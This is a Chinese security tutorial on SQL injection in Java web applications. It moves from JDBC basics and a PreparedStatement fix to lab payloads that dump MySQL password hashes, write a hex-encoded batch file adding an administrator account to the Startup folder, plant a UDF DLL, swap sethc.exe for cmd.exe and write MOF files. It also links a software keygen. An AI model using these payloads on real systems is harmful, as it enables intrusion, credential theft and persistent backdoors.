# 攻击 JavaWeb 应用[3]-SQL 注入[1]

2013/07/16 18:28 | [园长](http://drops.wooyun.org/author/园长 "由 园长 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

#### 注:本节重点在于让大家熟悉各种 SQL 注入在 JAVA 当中的表现，本想带点 ORM 框架实例，但是与其几乎无意，最近在学习 MongoDb，挺有意思的，后面有机会给大家补充相关。

### 0x00 JDBC 和 ORM

* * *

#### JDBC:

JDBC（Java Data Base Connectivity,java 数据库连接）是一种用于执行 SQL 语句的 Java API，可以为多种关系数据库提供统一访问。

#### JPA:

JPA 全称 Java Persistence API.JPA 通过 JDK 5.0 注解或 XML 描述对象－关系表的映射关系，并将运行期的实体对象持久化到数据库中。是一个 ORM 规范。Hibernate 是 JPA 的具体实现。但是 Hibernate 出现的时间早于 JPA（因为 Hibernate 作者很狂，sun 看不惯就叫他去制定 JPA 标准去了哈哈）。

#### ORM:

对象关系映射（ORM）目前有 Hibernate、OpenJPA、TopLink、EclipseJPA 等实现。

#### JDO:

JDO(Java Data Object )是 Java 对象持久化的新的规范，也是一个用于存取某种数据仓库中的对象的标准化 API。没有听说过 JDO 没有关系，很多人应该知道 PDO,ADO 吧？概念一样。

#### 关系:

JPA 可以依靠 JDBC 对 JDO 进行对象持久化，而 ORM 只是 JPA 当中的一个规范，我们常见的 Hibernate、Mybatis 和 TopLink 什么的都是 ORM 的具体实现。

概念性的东西知道就行了，能记住最好。很多东西可能真的是会用，但是要是让你去定义或者去解释的时候发现会有些困难。

重点了解 JDBC 是个什么东西，知道 Hibernate 和 Mybatis 是 ORM 的具体的实现就够了。

#### Object:

在 Java 当中 Object 类（java.lang.object）是所有 Java 类的祖先。每个类都使用 Object 作为超类。所有对象（包括数组）都实现这个类的方法。所以在认识 Java 之前应该有一个对象的概念。

#### 关系型数据库和非关系型数据库：

数据库是按照数据结构来组织、存储和管理数据的仓库。

关系型数据库，是建立在关系模型基础上的数据库。关系模型就是指二维表格模型,因而一个关系型数据库就是由二维表及其之间的联系组成的一个数据组织。当前主流的关系型数据库有 Oracle、DB2、Microsoft SQL Server、Microsoft Access、MySQL 等。

NoSQL，指的是非关系型的数据库。随着互联网 web2.0 网站的兴起，传统的关系数据库在应付 web2.0 网站，特别是超大规模和高并发的 SNS 类型的 web2.0 纯动态网站已经显得力不从心，暴露了很多难以克服的问题，而非关系型的数据库则由于其本身的特点得到了非常迅速的发展。

```
1、High performance - 对数据库高并发读写的需求。
2、Huge Storage - 对海量数据的高效率存储和访问的需求。
3、High Scalability && High Availability- 对数据库的高可扩展性和高可用性的需求。 
```

常见的非关系型数据库:Membase、MongoDB、Hypertable、Apache Cassandra、CouchDB 等。

常见的 NoSQL 数据库端口：

```
MongoDB:27017、28017、27080
CouchDB:5984
Hbase:9000
Cassandra:9160
Neo4j:7474
Riak:8098 
```

在引入这么多的概念之后我们今天的故事也就要开始了,概念性的东西后面慢慢来。引入这些东西不只仅仅是为了讲一个 SQL 注入，后面很多地方可能都会用到。

传统的 JDBC 大于要经过这么些步骤完成一次查询操作，java 和数据库的交互操作:

```
准备 JDBC 驱动
加载驱动
获取连接
预编译 SQL
执行 SQL
处理结果集
依次释放连接 
```

sun 只是在 JDBC 当中定义了具体的接口，而 JDBC 接口的具体的实现是由数据库提供厂商去写具体的实现的， 比如说 Connection 对象，不同的数据库的实现方式是不同的。

使用传统的 JDBC 的项目已经越来越少了，曾经的 model1 和 model2 已经被 MVC 给代替了。如果用传统的 JDBC 写项目你不得不去管理你的数据连接、事物等。而用 ORM 框架一般程序员只用关心执行 SQL 和处理结果集就行了。比如 Spring 的 JdbcTemplate、Hibernate 的 HibernateTemplate 提供了一套对 dao 操作的模版，对 JDBC 进行了轻量级封装。开发人员只需配置好数据源和事物一般仅需要提供一个 SQL、处理 SQL 执行后的结果就行了，其他的事情都交给框架去完成了。



### 0x01 经典的 JDBC 的 Sql 注入

* * *

Sql 注入产生的直接原因是拼凑 SQL，绝大多数程序员在做开发的时候并不会去关注 SQL 最终是怎么去运行的，更不会去关注 SQL 执行的安全性。因为时间紧，任务重完成业务需求就行了，谁还有时间去管你什么 SQL 注入什么？还不如喝喝茶，看看妹子。正是有了这种懒惰的程序员 SQL 注入一直没有消失，而这当中不乏一些大型厂商。有的人可能心中有防御 Sql 注入意识，但是在面对复杂业务的时候可能还是存在侥幸心理，最近还是被神奇路人甲给脱裤了。为了处理未知的 SQL 注入攻击，一些大厂商开始采用 SQL 防注入甚至是使用某些厂商的 WAF。

#### JDBCSqlInjectionTest.java 类：

```
package org.javaweb.test;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;

public class JDBCSqlInjectionTest {

    /**
     * sql 注入测试
     * @param id
     */
    public static void sqlInjectionTest(String id){

        String MYSQLDRIVER = "com.mysql.jdbc.Driver";//MYSQL 驱动
        //Mysql 连接字符串
        String MYSQLURL = "jdbc:mysql://localhost:3306/wooyun?user=root&password=caonimei&useUnicode=true&characterEncoding=utf8&autoReconnect=true";
        String sql = "SELECT * from corps where id = "+id;//查询语句
        try {
            Class.forName(MYSQLDRIVER);//加载 MYSQL 驱动
            Connection conn = DriverManager.getConnection(MYSQLURL);//获取数据库连接
            PreparedStatement pstt = conn.prepareStatement(sql);
            ResultSet rs = pstt.executeQuery();
            System.out.println("SQL:"+sql);//打印 SQL
            while(rs.next()){//结果遍历
                System.out.println("ID:"+rs.getObject("id"));//ID
                System.out.println("厂商:"+rs.getObject("corps_name"));//输出厂商名称
                System.out.println("主站"+rs.getObject("corps_url"));//厂商 URL
            }
            rs.close();//关闭查询结果集
            pstt.close();//关闭 PreparedStatement
            conn.close();//关闭数据连接
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (SQLException e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        sqlInjectionTest("2 and 1=2 union select version(),user(),database(),5 ");//查询 id 为 2 的厂商
    }
} 
```

现在有以下 Mysql 数据库结构(后面用到的数据库结构都是一样)： 



看下图代码是一个取数据和显示数据的过程。

第 20 行就是典型的拼 SQL 导致 SQL 注入，现在我们的注入将围绕着 20 行展开： 



当传入正常的参数”2”时输出的结果正常：



当参数为`2 and 1=1`去查询时，由于 1=1 为 true 所以能够正常的返回查询结果：



当传入参数`2 and 1=2`时查询结果是不存在的，所以没有显示任何结果。

Tips:在某些场景下可能需要在参数末尾加注释符--,使用“--”的作用在于注释掉从当前代码末尾到 SQL 末尾的语句。

--在 oracle 和 mssql 都可用，mysql 可以用`#` `/**`。



执行 order by 4 正常显示数据 order by 5 错误说明查询的字段数是 4。 



Order by 5 执行后直接爆了一个 SQL 异常： 



用联合查询执行:`2 and 1=2 union select version(),user(),database(),5 `



#### 小结论：

通过控制台执行 SQL 注入可知 SQL 注入跟平台无关、跟开发语言关系也不大，而是跟数据库有关。 知道了拼 SQL 肯定是会造成 SQL 注入的，那么我们应该怎样去修复上面的代码去防止 SQL 注入呢？其实只要把参数经过预编译就能够有效的防止 SQL 注入了，我们已经依旧提交 SQL 注入语句会发现之前能够成功注入出数据库版本、用户名、数据库名的语句现在无法带入数据库查询了：



### 0x02 PreparedStatement 实现防注入

* * *

SQL 语句被预编译并存储在 PreparedStatement 对象中。然后可以使用此对象多次高效地执行该语句。

```
Class.forName(MYSQLDRIVER);//加载 MYSQL 驱动 
Connection conn = DriverManager.getConnection(MYSQLURL);//获取数据库连接 
String sql = "SELECT * from corps where id = ? ";//查询语句 
PreparedStatement pstt = conn.prepareStatement(sql);//获取预编译的 PreparedStatement 对象 
pstt.setObject(1, id);//使用预编译 SQL 
ResultSet rs = pstt.executeQuery(); 
```



从 Class.forName 反射去加载 MYSQL 启动开始，到通过 DriverManager 去获取一个本地的连接数据库的对象。而拿到一个数据连接以后便是我们执行 SQL 与事物处理的过程。当我们去调用 PreparedStatement 的方法如：executeQuery 或 executeUpdate 等都会通过 mysql 的 JDBC 实现对 Mysql 数据库做对应的操作。Java 里面连接数据库的方式一般来说都是固定的格式，不同的只是实现方式。所以只要我们的项目中有加载对应数据库的 jar 包我们就能做相应的数据库连接。而在一个 Web 项目中如果/WEB-INF/lib 下和对应容器的 lib 下只有 mysql 的数据库连接驱动包，那么就只能连接 MYSQL 了，这一点跟其他语言有点不一样，不过应该容易理解和接受，假如 php.ini 不开启对 mysql、mssql、oracle 等数据库的支持效果都一样。修复之前的 SQL 注入的方式显而易见了，`用“？”号去占位，预编译 SQL 的时候会自动根据 pstt 里的参数去处理，从而避免 SQL 注入。`

```
String sql = "SELECT * from corps where id = ? "; 
pstt = conn.prepareStatement(sql);//获取预编译的 PreparedStatement 对象 
pstt.setObject(1, id);//使用预编译 SQL 
ResultSet rs = pstt.executeQuery(); 
```

在通过 conn.prepareStatement 去获取一个 PreparedStatement 便会以预编译去处理查询 SQL，而使用 conn.createStatement 得到的只是一个普通的 Statement 不会去预编译 SQL 语句，但 Statement 执行效率和速度都比 prepareStatement 要快前者是后者的父类。

从类加载到连接的关闭数据库厂商根据自己的数据库的特性实现了 JDBC 的接口。类加载完成之后才能够继续调用其他的方法去获取一个连接对象，然后才能过去执行 SQL 命令、返回查询结果集(ResultSet)。

Mysql 的 Driver：

```
public class Driver extends NonRegisteringDriver implements java.sql.Driver{} 
```

在加载驱动处下断点（22 行），可以跟踪到 mysql 的驱动连接数据库到获取连接的整个过程。







F5 进入到 Driver 类： 



驱动加载完成后我们会得到一个具体的连接的对象 Connection,而这个 Connection 包含了大量的信息，我们的一切对数据库的操作都是依赖于这个 Connection 的：



`conn.prepareStatement(sql);`

在获取 PreparedStatement 对象的时进入会进入到 Connection 类的具体的实现类 ConnectionImpl 类。

然后调用其 prepareStatement 方法。 

而 nativeSQL 方法调用了 EscapeProcessor 类的静态方法 escapeSQL 进行转意，返回的自然是转意后的 SQL。

预编译默认是在客户端的用`com.mysql.jdbc.PreparedStatement`本地 SQL 拼完 SQL，最终 mysql 数据库收到的 SQL 是已经替换了“?”后的 SQL，执行并返回我们查询的结果集。 从上而下大概明白了预编译做了个什么事情，并不是用了 PreparedStatement 这个对象就不存在 SQL 注入而是跟你在预编译前有没有拼凑 SQL 语句，

```
String sql = “select * from xxx where id = ”+id//这种必死无疑。 
```

#### Web 中绕过 SQL 防注入：

Java 中的 JSP 里边有个特性直接`request.getParameter("Parameter");`去获取请求的数据是不分 GET 和 POST 的，而看过我第一期的同学应该还记得我们的 Servlet 一般都是两者合一的方式去处理的，而在 SpringMVC 里面如果不指定传入参数的方式默认是 get 和 post 都可以接受到。

SpringMvc 如：

```
@RequestMapping(value="/index.aspx",method=RequestMethod.GET)
public String index(HttpServletRequest request,HttpServletResponse response){
    System.out.println("------------");
    return "index";
} 
```

上面默认只接收 GET 请求，而大多数时候是很少有人去制定请求的方式的。说这么多其实就是为了告诉大家我们可以通过 POST 方式去绕过普通的 SQL 防注入检测！

#### Web 当中最容易出现 SQL 注入的地方：

```
常见的文章显示、分类展示。
用户注册、用户登录处。
关键字搜索、文件下载处。
数据统计处（订单查询、上传下载统计等）经典的如 select 下拉框注入。
逻辑略复杂处(密码找回以及跟安全相关的)。 
```

#### 关于注入页面报错：

如果发现页面抛出异常，那么得从两个方面去看问题，传统的 SQL 注入在页面报错以后肯定没法直接从页面获取到数据信息。如果报错后 SQL 没有往下执行那么不管你提交什么 SQL 注入语句都是无效的，如果只是普通的错误可以根据错误信息进行参数修改之类继续 SQL 注入。 假设我们的 id 改为 int 类型：

```
int id = Integer.parseInt(request.getParameter("id"));  
```



程序在接受参数后把一个字符串转换成 int(整型)的时候发生异常，那么后面的代码是不会接着执行的哦，所以 SQL 注入也会失败。

#### Spring 中如何安全的拼 SQL(JDBC 同理)：

对于常见的 SQL 注入采用预编译就行了，但是很多时候条件较多或较为复杂的时候很多人都想偷懒拼 SQL。 

写了个这样的多条件查询条件自动匹配：

```
public static String SQL_FORUM_CLASS_SETTING = "SELECT * from bjcyw_forum_forum where 1=1 ";

    public List<Map<String, Object>> getForumClass(Map<String,Object> forum) {
    StringBuilder sql=new StringBuilder(SQL_FORUM_CLASS_SETTING);
    List<Object> ls=new ArrayList<Object>();
    if (forum.size()>0) {
        for (String key : forum.keySet()) {
            Object obj[]=(Object [])forum.get(key);
            sql = SqlHelper.selectHelper(sql, obj);
            if ("like".equalsIgnoreCase(obj[2].toString().trim())) {
                ls.add("%"+obj[1]+"%");
            }else{
                ls.add(obj[1]);
            }
        }
    }
    return jdbcTemplate.queryForList(sql.toString(),(Object[])ls.toArray());
} 
```

selectHelper 方法：

```
public static StringBuilder selectHelper(StringBuilder sql, Object obj[]){
    if (Constants.SQL_HELPER_LIKE.equalsIgnoreCase(obj[2].toString())) {
        sql.append(" AND "+obj[0]+" like ?");
    }else if (Constants.SQL_HELPER_EQUAL.equalsIgnoreCase(obj[2].toString())) {
        sql.append(" AND "+obj[0]+" = ?");
    }else if (Constants.SQL_HELPER_GREATERTHAN.equalsIgnoreCase(obj[2].toString())) {
        sql.append(" AND "+obj[0]+" > ?");
    }else if (Constants.SQL_HELPER_LESSTHAN.equalsIgnoreCase(obj[2].toString())) {
        sql.append(" AND "+obj[0]+" < ?");
    }else if (Constants.SQL_HELPER_NOTEQUAL.equalsIgnoreCase(obj[2].toString())) {
        sql.append(" AND "+obj[0]+" != ?");
    }
    return sql;
} 
```

信任客户端的参数一切参数只匹配查询条件，把参数和条件自动装配到框架。

如果客户端提交了危险的 SQL 也没有关系在 query 的时候是会预编译。

不贴了原文在：[`zone.wooyun.org/content/2448`](http://zone.wooyun.org/content/2448)

### 0x03 转战 Web 平台

* * *

看完了 SQL 注入在控制台下的表现，如果对上面还不甚清楚的同学继续看下面的 Web 注入。

首先我们了解下 Web 当中的 SQL 注入产生的原因: 



Mysql 篇： 数据库结构上面已经声明，现在有以下 Jsp 页面，逻辑跟上面注入一致： 



浏览器访问：http://localhost/SqlInjection/index.jsp?id=1



上面我们已经知道了查询的字段数是 4，现在构建联合查询，其中的 1，2，3 只是我们用来占位查看字段在页面对应的具体的输出。在 HackBar 执行我们的 SQL 注入，查看效果和执行情况： 



#### Mysql 查询和注入技巧：

只要是从事渗透测试工作的同学或者对 Web 比较喜爱的同学强荐大家学习下 SQL 语句和 Web 开发基础，SQL 管理客户端有一个神器叫 Navicat。支持 MySQL, SQL Server, SQLite, Oracle 和 PostgreSQL databases。官方下载地址：[`www.navicat.com/download`](http://www.navicat.com/download)不过需要注册，注册机：[`pan.baidu.com/share/link?shareid=271653&uk=1076602916`](http://pan.baidu.com/share/link?shareid=271653&uk=1076602916) 其次是下载吧有全套的下载。



似乎很多人都知道 Mysql 有个数据库叫 information_schema 里面存储了很多跟 Mysql 有关的信息，但是不知道里面具体都有些什么，有时间大家可以抽空看下。Mysql 的 sechema 都存在于此，包含了字段、表、元数据等各种信息。也就是对于 Mysql 来说创建一张表后对应的表信息会存储到 information_schema 里面，而且可以用 SQL 语句查询。

使用 Navicat 构建 SQL 查询语句：



当我们在 SQL 注入当中找到用户或管理员所在的表是非常重要的，而当我们想要快速找到跟用户相关的数据库表时候在 Mysql 里面就可以合理的使用 information_schema 去查询。构建 SQL 查询获取所有当前数据库当中数据库表名里面带有 user 关键字的演示： 



查询包含 user 关键字的表名的结果： 



假设已知某个网站用户数据非常大，我们可以通过上面构建的 SQL 去找到对应可能存在用户数据信息的表。

查询 Mysql 所有数据库中所有表名带有 user 关键字的表，并且按照表的行数降序排列：

```
SELECT
i.TABLE_NAME,i.TABLE_ROWS
FROM information_schema.`TABLES` AS i
WHERE i.TABLE_NAME
LIKE '%user%'
ORDER BY i.TABLE_ROWS
DESC 
```

查只在当前数据库查询：

```
SELECT
i.TABLE_NAME,i.TABLE_ROWS
FROM information_schema.`TABLES` AS i
WHERE i.TABLE_NAME
LIKE '%user%'
AND i.TABLE_SCHEMA = database()
ORDER BY i.TABLE_ROWS
DESC 
```

查询指定数据库： 


查询字段当中带有 user 关键字的所有的表名和数据库名：

```
SELECT
i.TABLE_SCHEMA,i.TABLE_NAME,i.COLUMN_NAME
FROM information_schema.`COLUMNS` AS i
WHERE i.COLUMN_NAME LIKE '%user%'  
```



#### CONCAT：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,CONCAT('MysqlUser:',User,'------MysqlPassword:',Password) FROM mysql.`user` limit 0,1 
```



#### GROUP_CONCAT

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,GROUP_CONCAT('MysqlUser:',User,'------MysqlPassword:',Password) FROM mysql.`user` limit 0,1 
```



#### 注入点友情备份:

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select '','',corps_name,corps_url from corps into outfile'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/1.txt' 
```

注入在 windows 下默认是 E:\如果用“\”去表示路径的话需要转换成`E:\\`而更方便的方式是直接用/去表示即 E:/。 当我们知道 WEB 路径的情况下而又有 outfile 权限直接导出数据库中的用户信息。



而如果是在一些极端的情况下无法直接 outfile 我们可以合理的利用 concat 和 GROUP_CONCAT 去把数据显示到页面，如果数据量特别大，我们可以用 concat 加上 limit 去控制显示的数量。比如每次从页面获取几百条数据？写一个工具去请求构建好的 SQL 注入点然后把页面的数据取下来，那么数据库的表信息也可以直接从注入点全部取出来。

#### 注入点 root 权限提权：

##### 1、写启动项：

这个算是非常简单的了，直接写到 windows 的启动目录就行了，我测试的系统是 windows7 直接写到:C:/Users/selina/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup 目录就行了。用 HackBar 去请求一下链接就能过把 bat 写入到我们的 windows 的启动菜单了，不过得注意的是 360 那个狗兔崽子：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 0x6E65742075736572207975616E7A20313233202F6164642026206E6574206C6F63616C67726F75702061646D696E6973747261746F7273207975616E7A202F616464,'','','' into outfile 'C:/Users/selina/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/1.bat' 
```



##### 2、失败的注入点 UDF 提权尝试：

MYSQL 提权的方式挺多的，并不局限于 udf、mof、写 windows 启动目录、SQL 语句替换 sethc 实现后门等，这里以 udf 为例，其实 udf 挺麻烦的，如果麻烦的东东你都能搞定，简单的自然就能过搞定了。 在进行 mysql 的 udf 提权的时候需要注意的是 mysql 的版本，mysql5.1 以下导入到 windows 目录就行了，而 mysql<=5.1 需要导入到插件目录。我测试的是 Mysql 5.5.27 我们的首要任务就是找到 mysql 插件路径。

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,@@plugin_dir 
```

获取插件目录方式：

```
select @@plugin_dir
select @@basedir

show variables like ‘%plugins%’ 
```



通过 MYSQL 预留的变量很轻易的就找到了 mysql 所在目录，那我们需要把 udf 导出的绝对路径就应该是：`D:/install/dev/mysql5.5/lib/plugin/udf.dll`。现在我们要做的就是怎样通过 SQL 注入去把这 udf 导出到上述目录了。 我先说下我是怎么从错误的方法到正确导入的一个过程吧。首先我执行了这么一个 SQL：

```
SELECT * from corps where id = 1 and 1=2 union select '','','',(CONVERT(0xudf 的十六进制 ,CHAR)) INTO DUMPFILE 'D:/install/dev/mysql5.5/lib/plugin/udf.dll' 
```

因为在命令行或执行单条语句的时候转换成 char 去 dumpfile 的时候是可以成功导出二进制文件的。 我们用浏览器浏览网页的时候都是以 GET 方式去提交的，而如果我用 GET 请求去传这个十六进制的 udf 的话显然会超过 GET 请求的限制，于是我简单的构建了一个 POST 请求去把一个 110K 的 0x 传到后端。



用 hackbar 去发送一个 post 请求发现失败了，一定是我打开方式不对，呵呵。随手写了个表单提交下： 下载地址: [`pan.baidu.com/share/link?shareid=1711769621&uk=1076602916`](http://pan.baidu.com/share/link?shareid=1711769621&uk=1076602916)



提交表单以后发现文件是写进去了，但是为什么就只有 84 字节捏？ 



难道是数据传输的时候被截断了？不至于吧，于是用 navicat 执行上面的语句： 



我似乎傻逼了，因为查询结果还是只有 84 字节，结果显然不是我想要的。84 字节，不带这么坑的。一计不成又生二计。 不让我直接 dumpfile 那我间接的去写总行吧？ 



1 and 1=2 union select '','','',0xUDF 转换后的 16 进制 INTO outFILE'D:/install/dev/mysql5.5/lib/plugin/udf.txt'发现格式不对，给 hex 加上单引号以字符串方式写入试下: 1 and 1=2 union select '','','',’0xUDF 转换后的 16 进制’ INTO outFILE'D:/install/dev/mysql5.5/lib/plugin/udf.txt'


这次写入的起码是 hex 了吧，再 load_file 到查询里面不就行了吗？我们知道 load_file 得到的肯定是一个 blob 吧。 



那么在注入点这么去构建一下不就行了： 



其实这都已经 2 到家了，这跟第一次提交的数据根本就没有两样。Load file 在这里依旧被转换成了 0x，我想这不行的话那么应该就只能在 blob 字段去 load_file 才能成功吧，因为现在 load 到了一个字段类型是 text 的位置里面。估计是被当字符串处理了，但是很显然是没法去找个 blob 的字段的，(用上面去 information_schema 去找应该能找到)。也就是说现在需要的是一个 blob 去临时的存储一下。又因为我们知道 MYSQL 是不支持多行查询的，所以我们根本就没有办法去建表(想过 copy 查询建表，但是显然是行不通的)。 这不科学，一定是打开方式不对。CAST 和 CONVERT 转换成 CHAR 都不行。能转换成 blob 之类的吗？CONVERT(0xsbsbsb,BLOB)发现失败了，把 BLOB 换成 BINARY 发现成功执行了。 于是用构建的表单再次执行下面的语句： `SELECT * from corps where id = 1 and 1=2 union select '','','', CONVERT(0x 不解释,BINARY) INTO DUMPFILE'D:/install/dev/mysql5.5/lib/plugin/udf.dll'`



这次执行成功了，哦多么痛的领悟……一开始把 CHAR 写成 BINARY 不就搞定了，二的太明显了。其实上面的二根本就不是事儿，更二的是当我要执行的时候恍然发现根本就没有办法去创建 function 啊！ O shit shift~ Mysql Driver 在 pstt.executeQuery()是不支持多行查询的，一个 select 在怎么也不能跟 create 同时执行。为了不影响大家心情还是继续写下去吧，命令行建立一个 function，然后在注入点注入（如果有前人已经创建 udf 的情况下可以直接利用）： 



因为没有办法去创建一个 function 所以用注入点实现 udf 提权在上一步就死了，通过在命令行执行创建 function 只能算是心灵安慰了，只要完成了 create function 那一步我们就真的成功了，因为调用自定义 function 非常简单：



#### MOF 和 sethc 提权：

MOF 和 sethc 提权我就不详讲了，因为看了上面的 udf 提权你已经具备自己导入任意文件到任意目录了，而 MOF 实际上就是写一个文件到指定目录，而 sethc 提权我只成功模糊的过一次。在命令行下利用 SQL 大概是这样的：

```
create table mix_cmd( shift longblob);
insert into mix_cmd values(load_file(‘c:\windows\system32\cmd.exe’));

select * from mix_cmd into dumpfile ‘c:\windows\system32\sethc.exe’;

drop table if exists mix_cmd; 
```

现在的管理员很多都会自作聪明的去把 net.exe、net1.exe 、cmd.exe、sethc.exe 删除防止入侵。当 sethc 不存在时我们可以用这个方法去试下，怎么确定是否存在?load_file 下看人品了,如果 cmd 和 sethc 都不存在那么按照上面的 udf 提权三部曲上传一个 cmd.exe 到任意目录。

```
SELECT LOAD_FILE('c:/windows/system32/cmd.exe') INTO DUMPFILE'c:/windows/system32/sethc.exe' 
```

MOF 大约是这样：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select char(ascii 转换后的代码),'','','' into dumpfile 'c:/windows/system32/wbem/mof/nullevts.mof' 
```

#### Mysql 小结：

我想讲的应该是一种方法而不是 SQL 怎么去写，学会了方法自然就会自己去拓展，当然了最好不要向上面 udf 那么二。有了上面的 demo 相信大家都会知道怎么去修改满足自己的需求了。学的不只是方法而是思路切记！

**Tags:** [java](http://drops.wooyun.org/tag/java), [sql 注入](http://drops.wooyun.org/tag/sql%e6%b3%a8%e5%85%a5)

版权声明：未经授权禁止转载 [园长](http://drops.wooyun.org/author/园长 "由 园长 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Java 安全模型介绍](http://drops.wooyun.org/tips/53)
*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)
*   [攻击 JavaWeb 应用[2]-CS 交互安全](http://drops.wooyun.org/tips/164)
*   [一种新的攻击方法——Java-Web-Expression-Language-Injection](http://drops.wooyun.org/tips/2494)
*   [解密 JBoss 和 Weblogic 数据源连接字符串和控制台密码](http://drops.wooyun.org/tips/349)
*   [攻击 JavaWeb 应用[5]-MVC 安全](http://drops.wooyun.org/tips/347)